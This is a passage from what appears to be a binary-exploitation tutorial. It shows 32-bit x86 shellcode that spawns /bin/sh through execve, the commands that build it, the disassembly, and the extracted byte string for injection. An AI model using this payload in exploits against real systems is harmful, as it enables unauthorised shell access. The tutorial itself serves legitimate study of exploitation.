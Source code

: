 with that, we get the shell.

#### Compiling Shellcode

First you write the shellcode. Here is what my shellcode looks like:
```
$	cat shellcode.asm 
[SECTION .text]
global _start
_start:
	push 0x0068732f
	push 0x6e69622f
	mov ebx, esp
	xor edx, edx
	push ebx
	push edx
	mov ecx, esp
	mov eax, 0xb
	int 0x80
```

Proceeding that, we compile it as a 32 bit binary:

```
nasm -f elf32 shellcode.asm
```

Following that, we juts link the binary as a `32` bit binary:

```
ld -m elf_i386 -o shellcode shellcode.o
```

after that, we will be able to see the assembly code for the binary:

```
$	objdump -D shellcode -M intel

shellcode:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	68 2f 73 68 00       	push   0x68732f
 8048065:	68 2f 62 69 6e       	push   0x6e69622f
 804806a:	89 e3                	mov    ebx,esp
 804806c:	31 d2                	xor    edx,edx
 804806e:	53                   	push   ebx
 804806f:	52                   	push   edx
 8048070:	89 e1                	mov    ecx,esp
 8048072:	b8 0b 00 00 00       	mov    eax,0xb
 8048077:	cd 80                	int    0x80
```

We can see that the shellcode is `\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xd2\x53\x52\x89\xe1\xb8\x0b\x00\x00\x00\xcd\x80`. We can test the shellocde by running the binary we just compiled:

